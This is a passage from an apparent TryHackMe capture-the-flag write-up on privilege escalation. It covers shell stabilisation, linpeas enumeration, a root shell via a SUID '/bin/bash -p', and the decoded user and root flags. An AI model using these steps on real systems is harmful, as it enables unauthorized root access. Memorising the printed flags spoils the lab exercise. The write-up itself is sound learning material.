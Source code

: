 And we got a shell, let's proceed with privesc.





# PRIVILEGE ESCALATION
---


First step is stabilizing our session:

1. python3 -c 'import pty;pty.spawn("/bin/bash")'
2. /usr/bin/script -qc /bin/bash /dev/null
3. CTRL + Z
4. stty raw -echo; fg
5. reset xterm
6. export TERM=xterm
7. export BASH=bash

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250321161700.png)

Once we've established our shell, let's look around for a way to get into root:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250321161942.png)

As seen root is running a script.sh file in the crontab, we cannot write it with `www-data` so, we need either the credentials of `elyana` or look around for other stuff, let's use linpeas:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250321162922.png)

We got a lot of binaries enabled, we can use this to get a root shell:

```
/bin/bash -p
```

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250321163046.png)

We got a root shell by this, let's read both flags:

```
bash-4.4# cat /home/elyana/user.txt
VEhNezQ5amc2NjZhbGI1ZTc2c2hydXNuNDlqZzY2NmFsYjVlNzZzaHJ1c259
```

This is encoded using base64, let's decode:

```
echo 'VEhNezQ5amc2NjZhbGI1ZTc2c2hydXNuNDlqZzY2NmFsYjVlNzZzaHJ1c259' | base64 -d
THM{49jg666alb5e76shrusn49jg666alb5e76shrusn}
```

Let's read root:

```
bash-4.4# cat root.txt
VEhNe3VlbTJ3aWdidWVtMndpZ2I2OHNuMmoxb3NwaTg2OHNuMmoxb3NwaTh9
```

Same as user:

```
echo 'VEhNe3VlbTJ3aWdidWVtMndpZ2I2OHNuMmoxb3NwaTg2OHNuMmoxb3NwaTh9' | base64 -d
THM{uem2wigbuem2wigb68sn2j1ospi868sn2j1ospi8}
```

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250321163201.png)


sudo apt update && sudo apt full-upgrade -y